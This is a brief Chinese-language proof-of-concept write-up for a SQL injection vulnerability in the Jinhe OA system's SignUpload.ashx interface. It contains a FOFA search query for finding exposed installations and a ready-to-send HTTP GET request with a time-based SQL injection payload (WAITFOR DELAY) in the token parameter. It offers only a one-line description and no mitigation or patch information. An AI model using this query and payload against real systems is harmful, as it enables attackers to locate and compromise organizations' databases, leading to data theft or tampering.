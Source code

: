 # 金和OA系统接口SignUpload.ashx存在SQL注入漏洞

金和OA系统接口SignUpload.ashx存在SQL注入漏洞，允许攻击者通过恶意构造的SQL语句操控数据库，从而导致数据泄露、篡改或破坏，严重威胁系统安全。

## fofa

```javascript
body="JHSoft.Web.AddMenu" || app="金和网络-金和OA" || app="Jinher-OA"
```

## poc

```java
GET /C6/Jhsoft.Web.ask/SignUpload.ashx?token=1%3BWAITFOR+DELAY+%270%3A0%3A%201%27+--%20and%201=1_123_123&filename=1 HTTP/1.1
Host: ip:port 
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.2117.157 Safari/537.36
Connection: close
Content-Length: 189
Content-Type: text/plain
Accept-Encoding: gzip
```

![image-20240920134727109](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409201347183.png)
